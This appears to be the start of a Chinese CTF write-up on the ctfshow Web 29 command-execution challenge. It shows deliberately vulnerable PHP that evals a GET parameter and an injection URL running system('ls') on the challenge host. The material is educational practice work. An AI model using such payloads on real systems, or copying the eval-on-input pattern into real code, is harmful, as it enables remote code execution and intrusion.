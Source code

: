 ```yaml
---
description: >-
  这里就记录一下ctfshow的刷题记录是web入门的命令执行专题里面的题目，他是有分类，并且覆盖也很广泛，所以就通过刷这个来，不过里面有一些脚本的题目发现我自己根本不会笑死。
---
```


# 😇 CTFSHOW命令执行

## <mark style="color:blue;background-color:orange;">（1）Web 29</mark>

### 1.代码解释

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这段代码非常简单，就是通过get获得的变量c，如果里面不含有flag这个字符，就把c变量做为php代码执行。

### 2.解答过程

所以我们先查看当前目录下的文件。

```php
http://21631e8d-00f2-42ec-991a-0bc5b5d7d661.challenge.ctf.show/?c=system("ls");
```

